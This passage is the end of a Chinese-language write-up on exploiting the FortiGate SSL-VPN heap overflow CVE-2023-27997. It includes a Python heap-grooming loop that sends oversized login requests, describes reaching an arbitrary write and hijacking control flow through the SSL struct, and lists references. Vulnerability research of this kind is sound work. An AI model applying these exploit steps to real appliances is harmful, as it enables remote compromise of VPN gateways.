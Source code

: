   
接下来，我们大量数据请求请求，把这两个0x2000的request的堆块给free掉  
  
```
for i in victims:
    content = 'username=' + '1' * 0x3000
    payload = f'''POST /remote/login HTTP/1.1Host: {HOST}:{PORT}Content-Length: {len(content)}User-Agent: Mozilla/5.0Content-Type: text/plain;charset=UTF-8Connection: Keep-AliveAccept: */*{content}'''
    i.sendall(payload.encode("utf-8"))

```  
  
  
接下来就是任意地址写了，我们可以看到我们在偏移为0x2010的地址写了字符串  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnR1Ivt65QXRZicIhy5iaT73MedhpzrLbQvsGiaiccNymoYyLbGU9JB9SnVeG86tHRMBjHttB6K7KSknRA/640?wx_fmt=png&from=appmsg "")  
  
接下来就是控制好堆布局就可以改写ssl结构体然后控制执行流了……  
## 参考文章  
  
https://blog.lexfo.fr/xortigate-cve-2023-27997.html  
  
https://bestwing.me/CVE-2023-27997-FortiGate-SSLVPN-Heap-Overflow.html  
  
https://github.com/BishopFox/CVE-2023-27997-check  
  
https://devco.re/blog/2019/08/09/attacking-ssl-vpn-part-2-breaking-the-Fortigate-ssl-vpn  
  
https://www.cnblogs.com/hac425/p/15371359.html  
  
https://nuoye-blog.github.io/2020/05/09/77b152fd/  
  
https://blog.csdn.net/hl09083253cy/article/details/79147625  
  
